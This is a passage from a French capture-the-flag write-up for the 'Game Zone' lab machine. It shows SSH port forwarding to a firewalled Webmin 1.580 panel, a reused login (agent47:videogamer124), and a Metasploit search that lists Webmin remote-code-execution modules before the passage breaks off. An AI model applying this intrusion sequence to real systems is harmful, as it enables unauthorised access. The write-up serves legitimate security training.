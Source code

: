 Le port `10000` semble bloqué par un parefeu, on va utiliser un `reverse ssh` pour avoir accès au flux :

```sh
kali@kali:~$ ssh -L 10000:localhost:10000 agent47@gamezone.thm
agent47@gamezone.thm's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Tue Aug 18 03:22:05 2020 from 10.11.7.104
agent47@gamezone:~$
```

Lorsqu'on se rend sur notre navigateur : `localhost:10000`, on trouve bien une page web, celle qu'on a redirigé vers nous. De plus, le couple `agent47:videogamer124` fonctionne pour se connecter au portail.

On tombe alors sur un CMS Webmin version `1.580`.

## Privilege Escalation with Metasploit 

Lançons alors metasploit :

```sh
kali@kali:~/Documents$ sudo msfdb init
[sudo] password for kali: 
[+] Starting database
[i] The database appears to be already configured, skipping initialization
kali@kali:~/Documents$ sudo msfconsole -q
msf5 > workspace -a gamezone
[*] Added workspace: gamezone
[*] Workspace: gamezone
msf5 >
```

Recherchons les exploits disponibles :

```sh
msf5 > search webmin

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  auxiliary/admin/webmin/edit_html_fileaccess  2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   1  auxiliary/admin/webmin/file_disclosure       2006-06-30       normal     No     Webmin File Disclosure
   2  exploit/linux/http/webmin_backdoor           2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor
   3  exploit/linux/http/webmin_packageup_rce      2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   4  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   5  exploit/unix/webapp/webmin_upload_exec       2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE
```
